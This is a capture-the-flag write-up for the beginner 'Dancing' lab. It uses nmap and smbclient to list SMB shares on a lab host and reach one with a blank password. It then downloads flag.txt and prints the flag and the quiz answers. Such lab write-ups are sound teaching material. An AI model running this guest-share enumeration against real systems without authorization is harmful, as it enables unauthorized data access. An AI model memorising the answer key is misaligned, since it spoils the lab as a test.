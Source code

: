 # Dancing

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: Network, Protocols, SMB, Reconnaissance, Anonymous/Guest Access
- **Tools**: 


# Walkthrough

## Task 1: What does the 3-letter acronym SMB stand for?

> **Answer**: Server Message Block

## Task 2: What port does SMB use to operate at?

> **Answer**: 445

## Task 3: What is the service name for port 445 that came up in our Nmap scan?

We can use the `-sV` flag to tell Nmap to probe for the service.

```bash
> nmap -sV -p 445 10.129.1.12
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-03 17:26 AEST
Nmap scan report for 10.129.1.12
Host is up (0.24s latency).

PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

```

> **Answer**: microsoft-ds

## Task 4: What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

> **Answer**: -L

## Task 5: How many shares are there on Dancing?

We can use `smbclient` to figure this out, along with the `-L` flag.

We don't need to provide a password as we're attempting to show guest-browseable shares.

```bash
> smbclient -L 10.129.1.12
Password for [WORKGROUP\user]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      

```

> **Answer**: 4

## Task 6: What is the name of the share we are able to access in the end with a blank password?

> **Answer**: WorkShares

## Task 7: What is the command we can use within the SMB shell to download the files we find?

> **Answer**: get

# Submit Root Flag

```bash
> smbclient //10.129.1.12/WorkShares
Password for [WORKGROUP\user]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul  4 22:38:12 2023
  ..                                  D        0  Tue Jul  4 22:38:12 2023
  Amy.J                               D        0  Mon Mar 29 20:08:24 2021
  James.P                             D        0  Thu Jun  3 18:38:03 2021

                5114111 blocks of size 4096. 1748960 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 18:38:03 2021
  ..                                  D        0  Thu Jun  3 18:38:03 2021
  flag.txt                            A       32  Mon Mar 29 20:26:57 2021

                5114111 blocks of size 4096. 1748960 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \James.P\> exit
> cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

> **Answer**: 5f61c10dffbc77a704d76016a22f1664
